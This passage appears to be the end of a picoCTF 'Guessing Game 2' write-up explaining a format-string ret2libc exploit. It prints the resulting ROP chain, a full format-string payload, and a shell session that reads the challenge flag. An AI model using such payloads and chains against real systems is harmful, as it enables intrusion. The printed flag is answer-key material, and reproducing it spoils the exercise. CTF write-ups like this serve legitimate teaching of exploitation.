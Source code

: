 ### No Stack Alignment required (in this case) before a Function Call

I was under the impression that in modern i386, `esp` needs to be aligned to the 16-byte boundary before a function call. However, `system("/bin/sh")` ran properly both locally and on the server even without alignment. 

Perhaps the alignment is more a convention than a requirement, or only a requirement if certain SIMD instructions are involved. 

### Writing in the ROP chain

Finally, the format-string vulnerability allows us to avoid the canary and write our desired bytes (forming the ret2libc attack) directly into the address space starting from the return address of `win`. 

This is highly automatable with pwntools' `FmtStr` class (see [solve.py](./solve.py)). 

## Flag

```bash
[+] Opening connection to jupiter.challenges.picoctf.org on port 57529: Done
[*] hex(libc.address)='0xf7cf9000'
[*] hex(ebp_main)='0xffc1c5b8'
[*] Loaded 163 cached gadgets for 'libc6-i386_2.27-3ubuntu1.6_amd64.so'
[*] ROP Chain:
    0x0000:       0xf7d35f10 system(0xf7e749db)
    0x0004:          b'baaa' <return address>
    0x0008:       0xf7e749db arg0
[*] Format String payload: b'%16c%36$hhn%57c%37$hhn%22c%38$hhncc%39$hhn%40$hhn%41$hhnc%42$hhn%113c%43$hhn%8c%44$hhn%12c%45$hhn%16c%46$hhn%47$hhna\x9c\xc5\xc1\xff\xa5\xc5\xc1\xff\x9d\xc5\xc1\xff\xa1\xc5\xc1\xff\xa2\xc5\xc1\xff\xa3\xc5\xc1\xff\xa0\xc5\xc1\xff\x9e\xc5\xc1\xff\xa4\xc5\xc1\xff\xa6\xc5\xc1\xff\x9f\xc5\xc1\xff\xa7\xc5\xc1\xff'
[*] Switching to interactive mode
Congrats:                \x00                                                        \xc0                     }ccc                                               
                                                                        q           q               %a\x9c\xc5\xc1\xff\xa5\xc5\xc1\xff\x9d\xc5\xc1\xff\xa1\xc5\xxc1\xff\xa2\xc5\xc1\xff\xa3\xc5\xc1\xff\xa0\xc5\xc1\xff\x9e\xc5\xc1\xff\xa4\xc5\xc1\xff\xa6\xc5\xc1\xff\x9f\xc5\xc1\xff\xa7\xc5\xc1\xff

$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{p0p_r0p_4nd_dr0p_1t_22bfee4300f20d7e}
```

## Alternative Methods

- [Using the fmtstr vulnerability to leak the canary before doing the ret2libc attack through the buffer overflow using `gets`](https://captain-woof.medium.com/picoctf-guessing-game-2-walkthrough-ret2libc-stack-cookies-6f9fc39273bf)